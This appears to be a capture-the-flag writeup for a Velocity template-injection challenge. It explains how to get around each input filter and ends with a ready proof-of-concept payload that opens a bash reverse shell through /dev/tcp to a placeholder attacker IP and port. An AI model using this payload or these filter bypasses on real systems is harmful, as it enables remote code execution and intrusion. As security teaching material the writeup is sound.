 # Writeup

1. Velocity Template Injection
2. We need to bypass some Filters
---
> `.replaceAll("\"", "&quot;")`

Block quotes `"`, we use `'` only

---
> `.replaceAll("\\$\\w+", "")`

This can be bypassed by putting it in formal reference notation `${<payload>}`

---
> `.replaceAll("\\#\\w+", "")`

Block `#set`.

---
> `"#[[" + decoded + "]]#"`.

This is for literals so it won't be parsed by Velocity. Can easily bypassed by adding `]]#` in front of the payload.

---
> `username.split(" ")[0]`:

Only first word of username will be accepted. But can be bypassed by using url encode `%20`

3. Final PoC (Reverse Shell)

```
a]]#${class.inspect('java.lang.Runtime').type.getRuntime().exec('bash%20-c%20$@|bash%200%20echo%20bash%20-i%20>&%20/dev/tcp/[IPADDR]/[PORT]%200>&1').waitFor()}#[[x
```
Don't forget to change `[IPADDR]` and `[PORT]` with your nc listener